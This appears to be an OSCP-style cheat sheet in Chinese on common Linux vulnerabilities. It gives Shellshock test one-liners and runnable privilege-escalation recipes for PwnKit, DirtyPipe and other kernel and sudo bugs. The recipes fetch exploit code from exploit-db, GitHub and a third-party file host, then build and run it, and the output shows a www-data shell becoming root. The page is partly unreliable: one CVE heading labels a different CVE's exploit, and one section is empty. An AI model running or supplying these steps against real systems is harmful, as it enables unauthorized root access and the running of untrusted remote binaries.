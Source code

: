```yaml
---
layer: article
title: Common Linux Vulnerabilities
tags: oscp
---
```




## 破壳 CVE-2014-6271

```bash
env x='() { :;}; echo Vulnerable CVE-2014-6271 ' bash -c "echo test"
```

演示：<https://github.com/vulhub/vulhub/tree/3a513cc4d40b5bf9035a2774b82ab56c9676bda7/bash/CVE-2014-6271>

## 破壳变种  CVE-2014-7169

```bash
env X='() { (shellshocker.net)=>\' bash -c "echo date"; cat echo; rm ./echo
```

## 破壳变种  CVE-2014-7186

```bash
$ bash -c 'true <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF' || 
echo "CVE-2014-7186 vulnerable, redir_stack"
```

## 破壳变种  CVE-2014-7187

```bash
$ (for x in {1..200} ; do echo "for x$x in ; do :"; done; for x in {1..200} ; do echo done ; done) | bash ||
echo "CVE-2014-7187 vulnerable, word_lineno"
```

## 破壳变种  CVE-2014-6278

```bash
shellshocker='() { echo You are vulnerable; }' bash -c shellshocker
```

## 破壳变种  CVE-2014-6277

```bash
bash -c "f() { x() { _;}; x() { _;} <<a; }" 2>/dev/null || echo vulnerable
```

## 脏牛 CVE-2016-5195

**参考：[深度分析“大小脏牛”漏洞：CVE-2016-5195和CVE-2017-1000405](https://www.freebuf.com/articles/network/283313.html)**

## CVE-2017-6074

```bash
$ wget https://www.exploit-db.com/download/41458 -O /tmp/exp.c
$ gcc -o exp exp.c
$ chmod +x exp
$ ./exp

```

## CVE-2017-16995

```

```



## 大脏牛 CVE-2017-1000405

**参考：[深度分析“大小脏牛”漏洞：CVE-2016-5195和CVE-2017-1000405](https://www.freebuf.com/articles/network/283313.html)**

## CVE-2018-18955



```bash
wget https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/47166.zip
unzip 47166.zip
cd ldpreload
./exploit.ldpreload.sh

```

https://bugs.chromium.org/p/project-zero/issues/detail?id=1712

https://github.com/scheatkode/CVE-2018-18955

## CVE-2021-3560

### 帮助

<https://github.com/worawit/CVE-2021-3156>

### 实例

```bash
/tmp$ git clone https://github.com/worawit/CVE-2021-3156
/tmp$ cd CVE-2021-3156
/tmp/CVE-2021-3156$ python exploit_nss.py 
# whoami
root
```



## CVE-2021-4034

### 帮助

<https://github.com/berdav/CVE-2021-4034>

### 实例

```bash
/tmp$ git clone https://github.com/berdav/CVE-2021-4034
git clone https://github.com/berdav/CVE-2021-4034
Cloning into 'CVE-2021-4034'...
remote: Enumerating objects: 92, done.        
remote: Counting objects: 100% (36/36), done.        
remote: Compressing objects: 100% (17/17), done.        
remote: Total 92 (delta 24), reused 19 (delta 19), pack-reused 56        
Unpacking objects: 100% (92/92), done.
/tmp$ cd CVE-2021-4034
/tmp/CVE-2021-4034$ ls
ls
cve-2021-4034.c   dry-run  Makefile  README.md
cve-2021-4034.sh  LICENSE  pwnkit.c
/tmp/CVE-2021-4034$ pwd
pwd
/tmp/CVE-2021-4034
/tmp/CVE-2021-4034$ make
make
cc -Wall --shared -fPIC -o pwnkit.so pwnkit.c
cc -Wall    cve-2021-4034.c   -o cve-2021-4034
echo "module UTF-8// PWNKIT// pwnkit 1" > gconv-modules
mkdir -p GCONV_PATH=.
cp -f /bin/true GCONV_PATH=./pwnkit.so:.
/tmp/CVE-2021-4034$ whoami
whoami
www-data
/tmp/CVE-2021-4034$ ./cve-2021-4034
./cve-2021-4034
# whoami
whoami
root
```

如果没有编译环境

```bash
/tmp$ git clone https://github.com/berdav/CVE-2021-4034
/tmp$ cd CVE-2021-4034
/tmp/CVE-2021-4034$ 


wget https://pan.iihack.com/d/CVE/cve-2021-4034
wget https://pan.iihack.com/d/CVE/cve-2021-4034/pwnkit.so
echo "module UTF-8// PWNKIT// pwnkit 1" > gconv-modules
mkdir -p GCONV_PATH=.
cp -f /bin/true GCONV_PATH=./pwnkit.so:.
chmod +x cve-2021-4034
./cve-2021-4034


whoami

```



## 脏管 CVE-2022-0847

1. poc by [Arinerron](https://github.com/Arinerron)

<https://github.com/Arinerron/CVE-2022-0847-DirtyPipe-Exploit/blob/main/exploit.c>

执行后密码root修改为`aaron`

2. poc by [r1is](https://github.com/r1is)

<https://github.com/r1is/CVE-2022-0847/blob/main/Dirty-Pipe.sh>

执行后获得root shell

```bash
git clone https://github.com/r1is/CVE-2022-0847.git
cd CVE-2022-0847
chmod +x Dirty-Pipe.sh
bash Dirty-Pipe.sh
```

还有几个待补充

**参考：[CVE-2022-0847 Linux 脏管漏洞分析与利用](https://www.freebuf.com/vuls/331378.html)**
